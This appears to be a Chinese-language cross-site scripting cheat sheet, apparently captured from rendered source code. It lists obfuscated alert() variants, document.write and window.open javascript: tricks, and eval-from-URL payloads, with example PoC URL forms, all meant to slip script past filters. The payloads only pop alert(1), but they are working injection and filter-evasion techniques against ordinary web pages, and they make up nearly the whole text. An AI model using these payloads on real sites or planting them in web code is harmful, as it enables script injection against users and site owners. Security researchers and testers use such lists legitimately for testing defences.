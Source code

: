 ```javascript
(alert)(1)
a=alert,a(1)
[1].find(alert)
top["al"+"ert"](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
top['al\145rt'](1)
top[8680439..toString(30)](1)
```



## Alert替代方法 - Write和Wrieln

**作为alert、prompt和 confirm替代方法使用。如果在HTML标签中使用，可以直接使用，单如果时JavaScript注入，则需要完整的`document.write`形式**

```javascript
write`XSSed!`
write`<img/src/o&#78error=alert&lpar;1)&gt;`
write('\74img/src/o\156error\75alert\501\51\76')
```



## Alert替代方法 - Open伪协议

**作为`alert`、`prompt`和`confirm`的替代方法使用，上文提到的技巧同样适用于此。在`Chromium`的浏览器中，第二个方法有效，并且需要`<iframe name=0>`  **

```javascript
top.open`javas\cript:al\ert\x281\x29`
top.open`javas\cript:al\ert\x281\x29${0}0
```



## Alert替代方法 - Eval + URL

**作为调用`alert`、`prompt`和`confirm`的替代方法使用。第一个payload是原始形式，而第二个payload则用HTML元素的`id`属性值来动态替换`eval`。代码需要放在URL的两个位置之一：要么在PHP扩展后的URL路径中（FILE.php/后面），或URL的片段中（即#后面）。URL中的加号（+）必须进行编码 **

```javascript
<svg onload=eval(" ' "+URL)>
<svg id=eval onload=top[id](" ' "+URL)>
    
PoC URL 必须包含以下内容之一：
=> FILE.php/'/alert(1)//?...
=> #'/alert(1)
```





## Alert替代方法 - Eval + URL 于模板字符串

```javascript
${alert(1)}<svg onload=eval('`//'+URL)>
```
